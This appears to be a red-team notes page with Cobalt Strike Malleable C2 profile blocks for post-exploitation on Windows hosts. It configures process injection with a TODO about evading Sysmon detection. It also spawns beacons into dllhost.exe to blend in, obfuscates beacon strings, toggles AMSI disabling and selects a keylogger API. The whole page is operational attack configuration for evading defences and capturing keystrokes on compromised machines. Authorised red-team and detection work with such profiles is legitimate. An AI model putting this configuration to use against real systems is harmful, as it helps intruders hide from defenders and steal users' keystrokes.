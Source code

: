 # 05 - Post Exploitation Code Block

Search Tag(s): #red-team-infrastructure #cobalt-strike #helpers

## 5.1 - Process Inject Block

TODO: Change the CreateRemoteThread to something else for bypassing sysmon event ID

```
process-inject {
	set userwx "false";
	
	set startrwx "true";
}
```

## 5.2 - Post Exploitation Block (Evasion)

```
post-ex {
	# Spawn the beacons to default windows EXE binaries.
	set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
	set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
	
	# Obfuscate beacon strings
	set obfuscate "true";

	set smartinject "true";
	
	# Disable AMSI feature. To enable it set it to "false"
    set amsi_disable "false";

	# Set a specific windows function for recording keystrokes (select only one of them)
	# set keylogger "SetWindowsHookEx";
	set keylogger "GetAsyncKeyState";
}
```